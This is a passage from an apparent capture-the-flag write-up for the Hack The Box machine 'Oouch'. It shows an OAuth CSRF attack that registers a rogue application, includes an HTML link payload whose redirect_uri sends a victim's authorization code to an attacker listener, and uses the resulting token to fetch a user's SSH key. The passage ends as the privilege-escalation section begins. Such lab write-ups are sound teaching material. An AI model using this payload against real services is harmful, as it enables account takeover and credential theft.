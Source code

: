 We are then directed to the application registration page:

{{<figure src="/img/htb/oouch/web8000_applications_register.png" position=center caption="Application Registration Page">}}

Client id and client secret are provided by the application. Clicking on save will register our new application to the OAuth server:

{{<figure src="/img/htb/oouch/web8000_applications_created.png" position=center caption="Application Created!">}}

Now that our application is created, we use it with the CSRF in the contact form in order to trick the user to authorize our application. Once they do, we'll receive the authorization code (tied to their account) which we can then use to request an access token that will allow us to authenticate as them.

{{<alert>}}
Don't forget to setup a listener on the return URL to catch the authorization token
{{</alert>}}

We can use the following payload:

```html
<a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=dQ8riRsCow9njRJOLr35uzUg0imhn9SAq8o3bawX&response_type=code&redirect_uri=http://10.10.14.14/pwned&scope=read&allow=Authorize">click!</a>
```

> Notice `&allow=Authorize` (originally in the request POST body) was added to the URL parameters since this endpoint is said to allow the GET method.

After a few seconds, we get the authorization code on our netcat listener:

{{<figure src="/img/htb/oouch/nc_listener_auth_code.png" position=center caption="Authorization Code!">}}

Now we can request a token on the `/oauth/token` endpoint we found earlier:

{{<figure src="/img/htb/oouch/web8000_get_token.png" position=center caption="Got the Bearer token!">}}

Using this token, we can for example, access `/api/get_user`:

{{<figure src="/img/htb/oouch/web8000_api_getuser.png" position=center caption="Information about qtc">}}

After more enumeration for other api endpoints, we find `/api/get_sshkey`:

{{<figure src="/img/htb/oouch/web8000_api_getsshkey.png" position=center caption="qtc's ssh key">}}

Using the ssh key, we can login as qtc and retrieve the user flag:

{{<figure src="/img/htb/oouch/user_flag.png" position=center caption="User flag obtained !">}}

## Privesc

### qtc -> www-data

In the home directory we find a note:
